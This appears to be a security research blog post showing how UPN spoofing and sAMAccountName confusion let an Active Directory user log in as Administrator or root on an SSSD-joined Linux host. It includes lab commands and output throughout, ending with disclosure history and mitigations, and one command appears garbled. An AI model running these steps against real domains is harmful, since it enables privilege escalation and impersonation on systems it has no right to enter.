

# A Long Distance Relationship with Kerberos

<div class="toc-container">
  <button class="toc-toggle" onclick="toggleToc()">Table of Contents</button>
  <div class="toc-content" id="tocContent">
    <ol>
      <li>
        <a href="#linux-active-directory-integration">Linux Active Directory Integration</a>
        <ul>
          <li><a href="#password-authentication">Password Authentication</a></li>
          <li><a href="#kerberos-sso">Kerberos SSO</a></li>
        </ul>
      </li>
      <li>
        <a href="#scenario-1-upn-spoofing-domain-users">Scenario 1: UPN Spoofing (Domain Users)</a>
        <ul>
          <li><a href="#password-authentication-1">Password Authentication</a></li>
          <li><a href="#kerberos-sso-1">Kerberos SSO</a></li>
        </ul>
      </li>
      <li>
        <a href="#scenario-2-upn-spoofing-local-users">Scenario 2: UPN Spoofing (Local Users)</a>
      </li>
      <li>
        <a href="#scenario-3-samaccount-name-confusion">Scenario 3: sAMAccount Name Confusion</a>
        <ul>
          <li><a href="#machineaccountquota">MachineAccountQuota</a></li>
          <li><a href="#writing-to-the-samaccountname">Writing to the sAMAccountName</a></li>
        </ul>
      </li>
      <li>
        <a href="#history-of-the-issue">History of the Issue</a>
      </li>
      <li>
        <a href="#mitigations">Mitigations</a>
      </li>
    </ol>
  </div>
</div>

[`Kerberos`](https://en.wikipedia.org/wiki/Kerberos_(protocol)) is an authentication protocol developed by MIT to provide secure authentication over an insecure network, the protocol has since seen widespread adoption, particularly in [Microsoft Active Directory Domain Services (AD DS)](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview), as well as in other systems such as [FreeIPA](https://www.freeipa.org/). 



Due to the demand for cross-platform authentication and [Single Sign-On (SSO) capabilities](https://docs.redhat.com/en/documentation/red_hat_satellite/6.16/html/configuring_authentication_for_red_hat_satellite_users/configuring-kerberos-sso-for-active-directory-users-in-project_authentication), Kerberos has become a critical component in modern authentication systems via intermediaries like [System Security Services Daemon (SSSD)](https://sssd.io/docs/krb/krb-introduction.html). This, however, has led to a situation where vendors have their own interpretations (and limitations) within the Kerberos protocol, resulting in a fragmented ecosystem.

This post will specifically focus on the attacks associated with a domain-joined Linux system that supports [Kerberos SSO](https://docs.redhat.com/en/documentation/red_hat_satellite/6.16/html/configuring_authentication_for_red_hat_satellite_users/configuring-kerberos-sso-for-active-directory-users-in-project_authentication).

## Linux Active Directory Integration

In this post, we'll be using a `Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-130-generic x86_64)` system, joined to the `mercury.local` domain. The primary domain controller (PDC) is a Windows Server 2022 system - `c-dc01.mercury.local`, this is also the Kerberos Key Distribution Center (KDC) for the domain.

```
$ realm list
mercury.local
  type: kerberos
  realm-name: MERCURY.LOCAL
  domain-name: mercury.local
  configured: kerberos-member
  server-software: active-directory
  client-software: sssd
  required-package: sssd-tools
  required-package: sssd
  required-package: libnss-sss
  required-package: libpam-sss
  required-package: adcli
  required-package: samba-common-bin
  login-formats: %U@mercury.local
  login-policy: allow-permitted-logins
  permitted-logins: 
  permitted-groups: Domain Admins@mercury.local

$ hostname -f
L-MGRT-APP001.mercury.local
```

This domain was joined using the [`realm` command, authentication services are handled by `SSSD`](https://www.redhat.com/en/blog/linux-active-directory), and `Domain Admins` is the only group permitted to log in to the system.

```
root@L-MGRT-APP001:/home# cat /etc/sssd/sssd.conf

[sssd]
domains = mercury.local
config_file_version = 2
services = nss, pam

[domain/mercury.local]
default_shell = /bin/bash
krb5_store_password_if_offline = True
cache_credentials = True
krb5_realm = MERCURY.LOCAL
realmd_tags = manages-system joined-with-adcli 
id_provider = ad
fallback_homedir = /home/%u
ad_domain = mercury.local
use_fully_qualified_names = True
ldap_id_mapping = True
access_provider = simple
simple_allow_groups = Domain Admins@mercury.local
```

We can verify that the current configuration works by attempting both password authentication, and `Kerberos SSO` as the `Administrator` user.

### Password Authentication

The `Administrator` user's password has been set to `T3stP@ssw0rd123` for this example, and the `id` command returns the user's UID, GID, and group memberships.

```
~$ sshpass -p 'T3stP@ssw0rd123' ssh 'Administrator@MERCURY.LOCAL'@L-MGRT-APP001.mercury.local 'id'
uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
```

### Kerberos SSO

Kerberos SSO from Linux requires a valid `krb5.conf` file. The following configuration is used for this example:

```
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = MERCURY.LOCAL

[realms]
    MERCURY.LOCAL = {
        kdc = c-dc01.mercury.local
        admin_server = c-dc01.mercury.local
        default_domain = mercury.local
    }

[domain_realm]
    .mercury.local = MERCURY.LOCAL
    mercury.local = MERCURY.LOCAL
```

We can obtain a `TGT` for the `Administrator` user, and authenticate to the system using `kinit`:

```
~$ echo 'T3stP@ssw0rd123' | kinit Administrator@MERCURY.LOCAL -E  
Password for Administrator\@MERCURY.LOCAL@MERCURY.LOCAL: 

~$ ssh 'Administrator@MERCURY.LOCAL'@L-MGRT-APP001.mercury.local -K id                            
uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
```

## Scenario 1: UPN Spoofing (Domain Users)

In a DEFCON 31 talk: ["A Broken Marriage: Abusing Mixed Vendor Kerberos Stacks"](https://forum.defcon.org/node/245708) by [Ceri Coburn, @_EthicalChaos_](https://x.com/_EthicalChaos_) and [later, blog post](https://www.pentestpartners.com/security-blog/a-broken-marriage-abusing-mixed-vendor-kerberos-stacks/). It was discovered that, given the ability to write to the `userPrincipalName` of a user in Active Directory, an attacker can impersonate any user in the domain to authenticate to a Linux system that supports Kerberos SSO.

Consider the following scenario, where the `gatari-ad` user has the ability to write to their own `userPrincipalName` attribute in Active Directory:

```
(LDAP)-[C-DC01.mercury.local]-[mercury\gatari-ad]
PV > Get-DomainUser -Identity 'gatari-ad' -Select sAMAccountName,userPrincipalName
sAMAccountName        : gatari-ad
userPrincipalName     : gatari@mercury.local
```

We can modify our `userPrincipalName` to the `Administrator` user, do note that this will not work if the `Administrator@mercury.local` UPN is already in use by another user, as the `userPrincipalName` must be unique across the domain.

```
~$ bloodyAD --host 'C-DC01.mercury.local' -u 'gatari-ad' -p 'P@ssw0rd' set object 'gatari-ad' 'userPrincipaly.local'
[+] gatari-ad's userPrincipalName has been updated

(LDAP)-[C-DC01.mercury.local]-[mercury\gatari-ad]
PV > Get-DomainUser -Identity 'gatari-ad'
cn                                : gatari
distinguishedName                 : CN=gatari,CN=Users,DC=mercury,DC=local
name                              : gatari
objectGUID                        : {05e6a3b7-d036-4846-bbd1-521dce60468e}
userAccountControl                : NORMAL_ACCOUNT [512]
badPwdCount                       : 0
badPasswordTime                   : 16/07/2025 10:15:10 (today)
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 16/07/2025 10:22:51 (today)
pwdLastSet                        : 16/07/2025 09:01:02 (today)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-1865292683-1165865761-2598954431-1689
sAMAccountName                    : gatari-ad
sAMAccountType                    : SAM_USER_OBJECT
userPrincipalName                 : Administrator@mercury.local
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=mercury,DC=local
```

### Password Authentication

Contrary to the expectation that this only works under the pretense of Kerberos SSO, based on my testing; this also works with password authentication. We can now authenticate to the Linux system as the `Administrator` user using the `gatari-ad` credentials.

```
~$ sshpass -p 'P@ssw0rd' ssh 'Administrator@mercury.local'@L-MGRT-APP001.mercury.local id

uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
```

After authenticating to the system, we can loot the cached TGT at `/tmp/krb5cc$(id -u)`:

```
administrator@mercury.local@L-MGRT-APP001:~$ ls -la /tmp/krb5cc_7000500_r9cKSh 
-rw------- 1 administrator@mercury.local domain users@mercury.local 1406 Jul 16 18:54 /tmp/krb5cc_7000500_r9cKSh
```

We'll find that the TGT belongs to the `gatari-ad` user, as expected:

```
~$ describeTicket.py krb5cc_7000500_r9cKSh
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : 5ba238ac341ddaddbe2f7e4d98d5114f0887263bb5d7926bd42f0c2006a1b8dc
[*] User Name                     : gatari-ad
[*] User Realm                    : MERCURY.LOCAL
[*] Service Name                  : krbtgt/MERCURY.LOCAL
[...snip...]
[*] KeyType                       : aes256_cts_hmac_sha1_96
[*] Base64(key)                   : W6I4rDQd2t2+L35NmNURTwiHJju115Jr1C8MIAahuNw=
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : krbtgt/MERCURY.LOCAL
[*]   Service Realm               : MERCURY.LOCAL
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
```

But, we retain the local privileges of the legitimate `Administrator@mercury.local` user on the system.

```
administrator@mercury.local@L-MGRT-APP001:~$ id
uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
```

### Kerberos SSO

Similarly, we can obtain a `TGT` for the `gatari-ad` user, and authenticate to the system using `kinit`:

```
~$ echo 'P@ssw0rd' | kinit 'Administrator'@MERCURY.LOCAL -E
Password for Administrator\@MERCURY.LOCAL@MERCURY.LOCAL: 

~$ ssh 'Administrator@MERCURY.LOCAL'@L-MGRT-APP001.mercury.local -K id
uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
```

## Scenario 2: UPN Spoofing (Local Users)

In the previous scenario, we were able to impersonate a domain user by modifying the `userPrincipalName` attribute in Active Directory. However, this attack can also be extended to local users on the Linux system.

```
bloodyAD --host 'C-DC01.mercury.local' -u 'gatari-ad' -p 'P@ssw0rd' set object 'gatari-ad' 'userPrincipalName' -v 'root'                       
[+] gatari-ad's userPrincipalName has been updated
```

Based on my testing, this only works with Kerberos SSO, and not password authentication. We can now authenticate to the Linux system as the `root` user using the `gatari-ad` credentials.

```
~$ echo 'P@ssw0rd' | kinit 'root' -E
Password for root@MERCURY.LOCAL: 

~$ ssh 'root'@L-MGRT-APP001.mercury.local id             
uid=0(root) gid=0(root) groups=0(root)
```

## Scenario 3: sAMAccount Name Confusion

Based on the research by Ceri Coburn, it is clear that the `sssd` service interprets incoming authentication in a potentially confusing manner. After further testing, and inspiration by a user named `lwo` on the [Vulnlab](https://www.vulnlab.com/) discord, I found that you could also impersonate a user by simply creating a machine account with the `sAMAccountName` of any local user.

### MachineAccountQuota

In your typical Active Directory environment, there is a limit on the number of machine accounts that can be created in a domain, this is controlled by the `MachineAccountQuota` setting. By default, this is set to `10`, meaning that any user with sufficient privileges can create up to 10 machine accounts in the domain.

With this setting, we can create a machine account with the `sAMAccountName` of `root`, and then use this account to authenticate to the Linux system as the `root` user.

```
~$ addcomputer.py 'mercury.local'/'gatari-ad':'P@ssw0rd' -computer-name 'root' -computer-pass 'P@ssw0rd123'
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account root$ with password P@ssw0rd123.

~$ echo 'P@ssw0rd123' | kinit 'root'
~$ ssh 'root'@L-MGRT-APP001.mercury.local -K id    
uid=0(root) gid=0(root) groups=0(root)
```

### Writing to the sAMAccountName

Similarly, if we have the ability to write to the `sAMAccountName` of a user; we can perform the same attack.

```
~$ bloodyAD --host 'C-DC01.mercury.local' -u 'gatari-ad' -p 'P@ssw0rd' set object 'gatari-ad' 'sAMAccountName' -v 'root'
[+] gatari-ad's sAMAccountName has been updated

~$ echo 'P@ssw0rd' | kinit 'root' -E 
Password for root@MERCURY.LOCAL: 

~$ ssh 'root'@L-MGRT-APP001.mercury.local -K id   
uid=0(root) gid=0(root) groups=0(root)
```

In this case, we can also authenticate with password authentication, as the `sAMAccountName` is used to look up the user in Active Directory.

```
~$ sshpass -p 'P@ssw0rd' ssh 'root'@L-MGRT-APP001.mercury.local id             
uid=0(root) gid=0(root) groups=0(root)
```

## History of the Issue

An attack has been reported as [CVE-2020-25717](https://www.samba.org/samba/security/CVE-2020-25717.html) in Samba, which documents a similar vector; which has since been patched in [Samba 4.13.14](https://www.samba.org/samba/history/samba-4.13.14.html) and later.

> The easiest example to illustrate this is if an attacker creates an account named root (by renaming a MachineAccountQuota based machine account), and asks for a login without a Kerberos PAC. Between obtaining the ticket and presenting it to a server, the attacker renames the user account to a different name. Samba attempts to look up "DOMAIN\root", which fails (as this no longer exists) and then falls back to looking up user "root", which will map to the privileged UNIX uid of 0.

As for the issues discussed in this post, there are no known patches or mitigations available at the time of writing nor does it appear that any are forthcoming.

We have reported this issue to `sssd` in [#8021](https://github.com/SSSD/sssd/issues/8021), where it has been acknowledged but unlikely to be fixed in the near future; citing the `sssd_krb5_localauth_plugin` plugin as a mitigation for this issue. 

> to avoid this kind of issues SSSD provides a localauth plugin, please see man sssd_krb5_localauth_plugin about how to configure it.

## Mitigations

1. You can monitor for any changes to the `userPrincipalName` or `sAMAccountName` attributes in Active Directory, as well as ensuring that users are not able to write to these attributes.

2. If you are using `SSSD`, you can also configure the `sssd_krb5_localauth_plugin` plugin to prevent this issue. You should also disable `Kerberos SSO` on the Linux system if you do not require it.


